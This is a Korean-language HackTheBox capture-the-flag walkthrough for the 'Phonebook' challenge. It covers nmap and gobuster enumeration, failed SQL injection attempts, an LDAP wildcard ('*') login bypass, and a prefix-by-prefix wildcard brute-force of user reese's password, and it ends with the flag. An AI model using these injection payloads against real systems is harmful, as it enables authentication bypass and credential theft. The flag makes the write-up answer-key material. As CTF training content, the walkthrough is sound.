






# HackTheBox Walkthrough - Room: Phonebook

**Target IP**: 83.136.253.59:35443  
**Difficulty**: Easy/Medium  
**Objective**: Exploit LDAP Injection vulnerability to obtain credentials and capture the flag.  


---

## 🧭 Initial Enumeration

### 🔍 nmap 스캔

```bash
nmap -sV -sC 83.136.253.59
```

→ 기본적인 서비스 및 버전 정보 확인.

### 🌐 gobuster 디렉토리 브루트포싱

```bash
gobuster dir -u http://83.136.253.59:35443/ -w /usr/share/wordlists/dirb/common.txt -x php,txt
```

→ `/login` 경로 확인됨.

---

## 🔐 로그인 페이지 분석

로그인 페이지에 다음 문구가 있음:

> New (9.8.2020): You can now login using the workstation username and password! - Reese

→ 워크스테이션 사용자 이름/비밀번호로 로그인 가능하다는 의미. 그러나 계정 정보는 알 수 없음.

### ❌ SQL Injection 시도 (실패)

```text
id: ' or 1=1 --
pw: 1234
```

또는

```text
id: ' or 1=1 #
pw: 1234
```

→ 모두 실패.

---

## 💡 LDAP Injection 탐색

writeup 참고 결과 LDAP 사용 중이라는 정보 확인.

참고 자료: [Cobalt.io - Introduction to LDAP Injection](https://www.cobalt.io/blog/introduction-to-ldap-injection-attack)  


### ✅ 로그인 성공한 페이로드

```text
id: *
pw: *
```


→ 모든 사용자 대상으로 검색. 로그인 성공.  


---

## 🔍 내부 탐색 및 사용자 확인

검색 창을 통해 사용자의 정보 일부를 확인할 수 있음.

writeup에 따르면 `reese`의 패스워드를 찾아야 함.

---

## 🧪 LDAP Injection Brute-force (Password)

Python 스크립트를 통해 `reese`의 패스워드를 Brute-force:

### 🎯 접근 전략

- username: `reese`
- password: `H*` 로 시작 → 응답 존재
- 이후 `Ha*`, `Hb*`, ... 순차적으로 시도하여 완전한 패스워드 추론

---

## 🚀 exploit.py 사용 결과

```bash
python3 exploit.py
```


→ 결과:  


```
password: HTB{d1rectory_h4xx0r_is_k00l}
```

🎉 플래그 획득 성공!

---

## 🧠 기술 요약

| 기술             | 설명                                                  |
|------------------|-------------------------------------------------------|
| nmap/gobuster     | 포트 및 디렉토리 탐색을 통해 공격 벡터 확인              |
| LDAP Injection    | SQL이 아닌 LDAP 쿼리 기반 인증 우회 시도                |
| 브루트 포싱       | 패스워드의 패턴을 이용한 증분 추측을 통해 로그인 정보 획득 |

---

## 🎯 최종 결과

- **플래그**: `HTB{d1rectory_h4xx0r_is_k00l}`
- **획득 방법**: LDAP Injection을 통한 인증 우회 및 Brute-force
